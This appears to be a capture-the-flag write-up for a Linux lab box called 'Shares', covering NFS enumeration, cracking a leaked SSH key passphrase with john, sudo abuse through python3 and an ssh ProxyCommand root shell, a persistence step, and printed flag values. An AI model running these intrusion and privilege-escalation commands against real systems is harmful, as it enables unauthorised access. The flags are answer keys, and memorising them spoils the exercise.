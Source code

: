 ```yaml
---
tags: [Beginner, Linux, Video]
title: Shares
created: '2020-05-25T19:25:40.092Z'
modified: '2020-07-02T11:49:42.398Z'
---
```


# Shares
- IP: `172.31.1.7`
- OS: Linux
## Enumeration
### Writeup
We run NMAP and get all the open ports.

Since we have nfs ports open, we try to figure out if there's any shares we can mount with `showmount`. That shows use that `/home/amir` is accessible to `*.*.*.*`.
Let's try and mount that by executing `mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`. We can now read the files in `/mnt/Shares`.
The folder that is the most interesting is the `.ssh` folder, containing an authorized_keys file and corresponding keys, but we can only read the `.bak` version, which still contains a private key.
We also found ssh running on a higher port. We set the permissions of the key to `700` but when we try to use the private key to log in (`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`), we get asked for a password, which we currently don't have.
The next idea is to crack the private key with john but first we need to convert the key to a hash with `ssh2john`. After running john on that, we get a password `hello6`, which we can use to log in as amir!
### Commands
#### NMap
- `nmap -p 1-65535 -T4 -A -v 172.31.1.7`
```xml
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pet Shop
111/tcp   open     rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34883/udp   mountd
|   100005  1,2,3      40303/udp6  mountd
|   100005  1,2,3      41611/tcp6  mountd
|   100005  1,2,3      47897/tcp   mountd
|   100021  1,3,4      42653/tcp6  nlockmgr
|   100021  1,3,4      43947/tcp   nlockmgr
|   100021  1,3,4      47799/udp   nlockmgr
|   100021  1,3,4      55090/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open     nfs_acl  3 (RPC #100227)
27853/tcp open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
|_  256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
32195/tcp filtered unknown
37623/tcp open     mountd   1-3 (RPC #100005)
37653/tcp open     mountd   1-3 (RPC #100005)
43947/tcp open     nlockmgr 1-4 (RPC #100021)
47897/tcp open     mountd   1-3 (RPC #100005)
```
#### ShowMount
- `showmount -e 172.31.1.7`
```bash
Export list for 172.31.1.7:
/home/amir *.*.*.*
```
#### Mount
`mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`
#### SSH
`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`
#### ssh2john
`/usr/share/john/ssh2john.py fromServer/id_rsa.bak > amir_ssh_hash`
#### john
`john --wordlist=/usr/share/wordlists/rockyou.txt amir_ssh_hash`
-> `hello6`

## Enumeration as Amir
### Writeup
We run LinPEAS and immediately notice we're part of the `sudo` group, but sadly, without knowing the current password, that doesn't really help us.
From doing `sudo -l`, we see we can run `pkexec` and `python3` as `amy` and get a shell as her by doing `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`.

Here we find `access.txt`: `dc17a108efc49710e2fd5450c492231c`
But before we move on, let's built some persistence in by uploading our private key to the server so we can ssh in as `amy`.
### Commands
#### Sudo
- `sudo -l`
```bash
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: 
```
- `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`

## Enumeration as Amy
### Writeup
We run `sudo -l` and see that we can run `ssh` as `root`.
We can easily get a root shell from the code from [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)

We can now get `system.txt`: `b910aca7fe5e6fcb5b0d1554f66c1506`
### Commands
#### SSH
- `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
